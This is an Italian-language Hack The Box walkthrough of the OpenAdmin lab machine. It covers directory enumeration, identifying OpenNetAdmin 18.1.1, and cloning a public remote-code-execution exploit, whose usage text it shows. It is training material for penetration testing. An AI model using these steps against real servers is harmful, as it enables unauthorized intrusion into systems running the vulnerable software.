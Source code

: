 ```bash
/sierra               (Status: 301) [Size: 313] [--> http://10.10.10.171/sierra/]
===============================================================
2023/09/29 08:50:18 Finished
===============================================================
```

Abbiamo 3 directory :

- /music                
- /artwork              
- /sierra 

Visitiamo `/music`

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/openadmin1.png)
E' un sito dove si puo ascoltare musica, il link al `login` ci rimanda ad una pagina `/ona` dove ci sono diverse informazioni interessanti 

![](Hackthebox-OSCP-Prepartion/zzz_rev/attachments/openadmin2.png)
Possiamo vedere una versione `18.1.1`  e un DNS Domain `openadmin.htb` (aggiungiamolo al nostro `etc/hosts`)

Facendo una rapida ricerca su google troviamo subito questa [RCE](https://github.com/amriunix/ona-rce)

# GAINING AN INITIAL FOOTHOLD

## ona-rce.py 

La scarichiamo ed adiamo a vederla 

```bash
┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# git clone https://github.com/amriunix/ona-rce.git
Cloning into 'ona-rce'...
remote: Enumerating objects: 11, done.
remote: Counting objects: 100% (11/11), done.
remote: Compressing objects: 100% (9/9), done.
remote: Total 11 (delta 4), reused 9 (delta 2), pack-reused 0
Receiving objects: 100% (11/11), 552.45 KiB | 3.14 MiB/s, done.
Resolving deltas: 100% (4/4), done.

┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# ls
ona-rce

┌──(root㉿kali)-[/home/kali/htb/openadmin]
└─# cd ona-rce

┌──(root㉿kali)-[/home/kali/htb/openadmin/ona-rce]
└─# ls
ona-proof.png  ona-rce.py  README.md

┌──(root㉿kali)-[/home/kali/htb/openadmin/ona-rce]
└─# chmod +x ona-rce.py

┌──(root㉿kali)-[/home/kali/htb/openadmin/ona-rce]
└─# python3 ona-rce.py
[*] OpenNetAdmin 18.1.1 - Remote Code Execution

[-] Usage: python3 ona-rce.py [check | exploit] <URL>

[*] Options:
        [+] check    : Verify if the target is vulnerable
```